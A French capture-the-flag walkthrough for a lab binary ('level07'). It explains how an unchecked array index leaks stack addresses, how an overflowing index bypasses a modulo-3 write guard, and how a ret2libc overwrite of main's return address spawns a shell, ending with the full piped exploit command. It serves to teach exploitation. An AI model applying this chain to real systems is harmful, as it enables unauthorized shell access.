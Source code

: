 ## Walkthrough Level07

### 1. Fonctionnement du programme

Le programme propose un service de stockage de nombres dans un tableau de 100 cases (indices 0 à 99). Trois commandes sont disponibles :
- `store` : stocke un nombre à un indice donné (avec restrictions sur certains indices et valeurs)
- `read` : lit la valeur à un indice donné
- `quit` : quitte le programme

Certaines cases (indices multiples de 3 ou si le nombre a 0xb7 comme octet de poids fort) sont réservées et protégées à l'écriture.

### 2. Recherche de vulnérabilité

Aucune fonction évidente de type buffer overflow ou format string. Mais en testant la lecture au-delà de l'indice 99 (ex : `read` sur 100, 101, etc.), on observe que le programme lit alors des valeurs de la stack. Les valeurs sont affichées en décimal.

En convertissant ces valeurs en hexadécimal, on obtient des adresses intéressantes :
- 100: 1
- 101: 1684104562 = 0x64616572
- 106: 994440960 = 0x3B45F700
- 107: 4160665120 = 0xF7FEB620
- 109: 134515209 = 0x8048A09
- 110: 4160548852 = 0xF7FCEFF4
- 114: 4158936339 = 0xF7E45513

En testant dans gdb:
```c
(gdb) x/i 0xf7e45513
   0xf7e45513 <__libc_start_main+243>:  mov    %eax,(%esp)
```
on voit que l'adresse 0xF7E45513 correspond à `__libc_start_main+243`, soit l'adresse de retour du programme à la fin du main.

### 3. Exploitation : écriture hors limites

Problème : l'indice 114 est protégé à l'écriture (car 114 % 3 == 0). Mais la fonction ne vérifie pas si l'indice est dans [0,99], seulement le modulo 3 et l'octet de poids fort du nombre.

On peut donc exploiter un overflow d'entier : si on fournit un indice négatif (en unsigned int), il sera converti en un grand nombre. Par exemple, si on donne 2147483762 (soit INT_MAX + 1 + 114), alors :
- 2147483762 % 3 = 2 (donc PAS protégé)
- Mais 2147483762, en unsigned, correspond à l'indice 114 sur la stack (car 2147483762 - 2^31 = 114)

**Explication** :
- Le tableau est accédé par `storage[index]`, donc un index hors limites lit/écrit sur la stack.
- L'overflow permet de contourner la protection modulo 3.

### 4. Ret2libc

On peut alors écraser l'adresse de retour du main (case 114) avec l'adresse de `system`, et placer l'adresse de "/bin/sh" juste après (case 116).

Pour cela, on récupère les adresses dans gdb :
- `system` : via `info function system`
- `"/bin/sh"` : via `find` dans la libc

On convertit ces adresses en décimal pour les fournir au programme.

### 5. Exploitation finale

Exemple de commande :
```sh
(python -c 'print("store")'; \
 python -c 'print("4159090384")'; \
 python -c 'print("2147483762")'; \
 python -c 'print("store")'; \
 python -c 'print("4160264172")'; \
 python -c 'print("116")'; \
 python -c 'print("quit")'; \
 cat) | ./level07
```

- On écrit l'adresse de `system` à l'indice 114 (via l'overflow d'index)
- On écrit l'adresse de "/bin/sh" à l'indice 116
- Quand le programme quitte, il exécute `system("/bin/sh")` et on obtient un shell

---

**Résumé** :
- Le programme ne vérifie pas les bornes d'index, ce qui permet de lire/écrire sur la stack.
- On contourne la protection modulo 3 par un overflow d'index.
- On réalise un ret2libc pour obtenir un shell.
